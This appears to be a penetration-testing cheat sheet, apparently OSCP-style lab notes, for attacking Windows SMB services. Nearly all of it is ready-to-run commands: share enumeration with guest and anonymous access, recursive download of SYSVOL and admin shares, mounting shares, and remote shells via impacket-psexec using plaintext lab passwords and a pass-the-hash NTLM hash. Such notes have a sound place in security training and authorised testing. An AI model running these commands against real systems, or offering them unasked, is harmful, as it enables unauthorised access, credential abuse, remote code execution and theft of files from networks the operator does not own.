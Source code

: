 ### Enumeration
```
enum4linux -v 192.168.211.13 
```
### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)


### smb list shares
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. recurse ON
4. mget *
5. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Admin share and C share needs to be writable
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
```
